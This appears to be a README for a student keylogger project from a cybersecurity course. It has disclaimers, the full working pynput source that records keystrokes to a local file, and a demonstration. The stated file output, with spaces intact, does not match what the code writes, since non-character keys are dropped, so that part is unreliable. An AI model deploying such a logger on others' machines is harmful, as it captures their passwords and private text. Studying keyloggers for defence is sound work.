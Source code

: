 # Educational Keylogger Project

## IMPORTANT DISCLAIMER
This project is strictly for **EDUCATIONAL PURPOSES ONLY** as part of a cybersecurity course. The creation and use of keyloggers without explicit permission is illegal and unethical. This code should only be run in a controlled, isolated environment that you own or have explicit permission to test on.

## Description
This project demonstrates a basic keylogger implementation in Python for educational purposes in a cybersecurity course. The goal is to understand how keyloggers work in order to develop better defense mechanisms against them.

## Purpose
- To educate cybersecurity students on the mechanics of keyloggers
- To highlight the importance of ethical hacking and responsible disclosure
- To develop strategies for detecting and preventing keylogging attacks

## Requirements
- Python 3.x
- pynput library

## Installation
1. Ensure Python 3.x is installed on your system.
2. Install the required library:
   ```
   pip install pynput
   ```

## Usage
1. Run the script in a controlled, isolated environment:
   ```
   python keylogger.py
   ```
2. The script will log keystrokes to a file named `keyfile.txt` in the same directory.
3. To stop the keylogger, use the appropriate keyboard interrupt for your system (usually Ctrl+C).

## Code Overview
```python
from pynput import keyboard

def keyPressed(key):
    print(str(key))
    with open("keyfile.txt", 'a') as logkey:
        try:
            char = key.char
            logkey.write(char)
        except:
            print("Error getting char")

if __name__ == "__main__":
    listener = keyboard.Listener(on_press=keyPressed)
    listener.start()
    input()
```

## Demonstration
To demonstrate how the keylogger works, follow these steps in your isolated, controlled environment:

1. Start the keylogger:
   ```
   python keylogger.py
   ```

2. Open a text editor or browser window and type a sample sentence, such as:
   "The quick brown fox jumps over the lazy dog."

3. Press some special keys like Enter, Shift, and Backspace.

4. Stop the keylogger using Ctrl+C.

5. Open the `keyfile.txt` file. You should see content similar to this:
   ```
   The quick brown fox jumps over the lazy dog.
   ```

6. Check the console output. You should see additional information about the keys pressed, including special keys:
   ```
   'T'
   'h'
   'e'
   Key.space
   'q'
   'u'
   'i'
   'c'
   'k'
   ...
   Key.enter
   Key.shift
   Key.backspace
   ```

This demonstration shows how the keylogger captures and logs keystrokes, including both printable characters and special keys. In a real-world scenario, this type of logging could pose significant privacy and security risks, which is why it's crucial to understand these mechanisms for defensive purposes.

## Learning Objectives
- Understand the basic mechanics of keylogging
- Recognize the potential threats posed by keyloggers
- Develop strategies to detect and prevent keylogging attacks
- Appreciate the importance of ethical hacking and responsible disclosure

## Further Learning
- Research and implement methods to detect keyloggers
- Develop countermeasures against keylogging attacks
- Explore system-level protections against unauthorized keylogging

## Resources
- [pynput Documentation](https://pynput.readthedocs.io/)
- [OWASP Key Logging](https://owasp.org/www-community/controls/Key_Logging)
- [Ethical Hacking: Understanding Ethical Hacking](https://www.ec-council.org/ethical-hacking/)
